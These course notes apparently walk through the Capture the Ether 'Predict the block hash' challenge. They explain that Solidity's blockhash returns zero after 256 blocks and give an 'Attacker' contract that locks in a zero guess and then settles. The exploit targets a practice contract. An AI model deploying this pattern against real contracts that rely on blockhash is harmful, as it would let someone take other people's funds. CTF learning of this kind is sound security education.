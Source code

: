 ## Week6 Auditing and Hacking cont.  

### Capture the Ether Predict the block hash

The objective is to predict the entire 256-bit block hash for a future block.  This is difficult and I thought I could do it in a controlled blockchain, however I could not.  One thing to note from the solidity docs:  

>The block hashes are not available for all blocks for scalability reasons. You can only access the hashes of the most recent 256 blocks, all other values will be zero.

So if we lock the contract in at block N, then wait for 256 blocks to pass calling blockhash(N) will result in 0.  We can now just lock in an answer of 0 and then wait 256 blocks to verify.  A contact doing that is given below.  

```Java
contract Attacker {
    PredictTheBlockHashChallenge challenge;
    uint public blockNum;

    function Attacker(address challengeAdd) public payable {
        require(msg.value == 1 ether);
        challenge = PredictTheBlockHashChallenge(challengeAdd);
    }

    // step 1
    function lock() external {
        bytes32 answer = 0x00000000000000000000000000000000;
        challenge.lockInGuess.value(1 ether)(answer);
    }

    // step 2, for creating transactions on simulated block chains (Ganache).  
    function incBlockNumber() external {
        blockNum = block.number;
    }

    // Step 3.
    function finish() external {
        challenge.settle();
    }
}
```
